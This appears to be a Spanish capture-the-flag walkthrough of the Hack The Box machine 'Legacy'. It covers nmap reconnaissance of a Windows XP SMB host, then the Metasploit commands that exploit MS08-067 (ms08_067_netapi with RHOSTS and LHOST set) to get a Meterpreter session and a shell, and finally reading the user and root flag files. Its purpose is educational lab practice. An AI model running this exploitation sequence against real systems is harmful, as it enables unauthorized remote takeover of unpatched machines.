

# Skills

- ms08_067_netapi Explotation
- Metasploit

# Information Gathering

Empezamos nuestro escaneo de siempre con nmap para ver que puertos estan abiertos en la maquina victima:

```bash
sudo nmap -sS -p- --open --min-rate 2000 -Pn -n 10.10.10.4 -oG nmap

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Ahora vamos a ver las versiones de estos puertos:

```bash
nmap -p135,139,445 -sCV 10.10.10.4 

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-21T06:04:57+03:00
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:6f:ac (VMware)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
```

Interesante, encontramos una version muy vieja de smb, esto es colador de vulnerabildades, aparte tambien es un windows XP

# Explotation

Vamos a ejecutar el msfconsole.

> Que es msfconsole?

> Es una herramienta central en el Metasploit Framework que proporciona una interfaz poderosa y flexible para realizar una amplia variedad de tareas relacionadas con la explotación de vulnerabilidades y la evaluación de la seguridad.

```bash
msfconsole
```

ahora vamos a buscar por la vulnerabilidad que nos interesa, que en este caso es ms08_067_netapi.

```bash
search ms08_067_netapi
```

Seleccionamos el idioma de la maquina victima, English.



```bash
use 8
```

Ponemos la ip de la maquina victima:

```bash
set RHOSTS 10.10.10.4
```

Tambien colocamos nuestra ip:

```bash
set LHOST 10.10.14.11
```

Ejecutamos el exploit:

```bash
exploit
```

Y ya tenemos una shell como root.

Pero lo que recibimos en un principio es el meterpreter

> Que es el meterpreter?

> Meterpreter es una herramienta poderosa para la administración y el control remoto de sistemas comprometidos, ofreciendo una amplia gama de funcionalidades para los profesionales de la seguridad.

```bash
shell
```

## Get flags

En esta ruta esta la user.txt.

```cms
C:\WINDOWS>type "C:\Documents and Settings\john\Desktop\user.txt"
```

y En esta ruta esta la root.txt.

```cmd
C:\WINDOWS>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

# Summary
Aqui te dejo algunos recursos que te pueden ayudar a aprender mas a fondo sobre esta vulnerabilidad:

- [MS08-067 - Como arreglarlo](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
- [MS08-067](https://support.microsoft.com/es-es/topic/ms08-067-una-vulnerabilidad-en-el-servicio-servidor-podr%C3%ADa-permitir-la-ejecuci%C3%B3n-remota-de-c%C3%B3digo-ac7878fc-be69-7143-472d-2507a179cd15)
- [Script en Python - MS08-067](https://www.exploit-db.com/exploits/40279)